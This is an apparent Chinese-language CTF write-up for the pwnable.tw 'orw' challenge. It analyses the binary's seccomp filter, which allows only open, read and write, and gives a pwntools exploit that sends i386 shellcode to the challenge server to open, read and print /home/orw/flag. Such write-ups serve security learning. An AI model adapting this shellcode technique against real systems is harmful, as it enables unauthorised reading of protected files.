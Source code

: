 ```yaml
---
layout: post
title: prctl&pwnable_orw
categories: pwn
tags: [pwn]
description: prtcl
date: 2020-02-25
---
```





## 相关工具
seccomp-tools https://github.com/david942j/seccomp-tools

## orw
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
拽进Ida，根据prctl函数可以确定几个结构体。
```
  qmemcpy(&sock_filter, stru_8048640, 0x60u);
  LOWORD(sfp.len) = 12;
  sfp.filter = &sock_filter;
  prctl(38, 1, 0, 0, 0);                        // prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
  prctl(22, 2, &sfp);                           // prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct3.png)
![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct1.png)


整个程序就是让我们输入一段shellcode，去打开提示所说的 **/home/orw/flag** 


```
➜  seccomp-tools dump ./orw
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
能用的函数：rt_sigreturn、sigreturn、exit_group、exit、open、read、write

## exp
```python
from pwn import *
p = remote('chall.pwnable.tw',10001)
shellcode = ''
#open(/home/orw/flag,0,0)
shellcode+=asm('mov eax,0x5;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;int 0x80;')
#read(3,/home/orw/flag,0x30)
shellcode +=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x30;int 0x80;')
#write(1,/home/orw/flag,0x30)
shellcode+=asm('mov eax,0x4; mov ebx,0x1;int 0x80;')
p.recvuntil(':')
p.send(shellcode)
p.interactive()
```

在 http://syscalls.kernelgrok.com/ 可以看到调用号和各寄存器作用
